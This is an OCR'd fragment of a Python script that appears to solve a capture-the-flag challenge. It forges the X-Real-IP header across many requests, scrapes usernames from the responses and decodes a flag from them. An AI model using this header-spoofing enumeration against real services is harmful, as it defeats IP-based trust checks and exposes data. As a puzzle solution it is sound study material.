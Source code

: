 ```python
    headers={
        "User-Agent":"test"+random.choice("abcdefghijklmnopqrstuvwxyz"),
        # "X-Client-IP":ip,
        # "X-Forwarded-For":ip,
        "X-Real-IP":ip,
        "connection":"keep-alive"
        # "X-Forwarded-Host":ip,
    }
    res=sess.get(url,headers=headers)
    try:
        user=re.findall(r"User\: ([a-zA-Z0-9]+?)\<",res.content.decode())[-1]
        return user

    except:
        print(res.content.decode())

def get_flag(username):
    ip=[0]*4
    aaa=(206<<8)+103
    for i in range(4):
        item=username[i*3:i*3+3]
        for ipls in iplist:
            if item in ipls:
                ip[iplist.index(ipls)]=ipls.index(item)
                break

    ipvalue=ip[0]*aaa*313+ip[1]*aaa+ip[2]*103+ip[3]
    return int_to_ascii(ipvalue)

iplist1=[]
iplist2=[]
iplist3=[]
iplist4=[]

for i in range(0,103):
    iplist1.append(get_ip(int_to_ip(i))[3:6])
for i in range(0,(206<<8)+103,103):
    iplist2.append(get_ip(int_to_ip(i))[:3])

aaa=(206<<8)+103
for i in range(0,aaa*313,aaa):
    iplist3.append(get_ip(int_to_ip(i))[6:9])

for i in range(0,aaa*313*260,aaa*313):
    ip=get_ip(int_to_ip(i))
    aa=ip.replace("Wim","").replace("Nod","").replace("Ser","")
    iplist4.append(aa)

iplist=[iplist1,iplist2,iplist3,iplist4]

with open("test1.json","w",encoding="utf-8") as f:
    json.dump(iplist,f,ensure_ascii=False)

with open("test1.json","r",encoding="utf-8") as f:
    iplist=json.load(f)[::-1]

# username="VicCouNeaGas"
users=get_username()
flaglist=[]
for user in users:
    flaglist+=get_flag(user)
print("".join(chr(int(item)) for item in flaglist))
```